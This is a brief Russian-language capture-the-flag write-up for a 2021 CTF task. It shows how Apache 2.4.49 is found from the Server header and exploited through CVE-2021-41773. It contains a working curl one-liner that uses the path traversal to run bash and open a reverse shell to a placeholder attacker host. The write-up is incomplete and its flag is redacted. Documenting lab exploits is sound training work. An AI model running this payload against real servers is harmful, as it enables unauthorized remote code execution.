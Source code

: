 # Middle-aged daemon

_http://middle-aged-daemon.tasks.2021.ctf.cs.msu.ru:8080_

### Solution

Делаем GET запрос на ссылку из условия и в ответе ищем заголовок Server, по подсказке из названия таска. _Server: Apache/2.4.49_.

Ищем в интернете уязвимости веб-сервера Apache версии 2.4.49 и находим CVE-2021-41773:
_https://www.exploit-db.com/exploits/50383_
 
С помощью утилиты curl используем данную уязвимость, чтобы прокинуть ревёрс-шелл.

```bash
curl "http://middle-aged-daemon.tasks.2021.ctf.cs.msu.ru:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash" -d 'echo;bash -i >& /dev/tcp/atacker_ip/port 0>&1'
```

Находим флаг в директории *дописать* и читаем его с помощью утилиты cat.

`
Flag: MSKCTF{TO_BE_REDACTED}
`
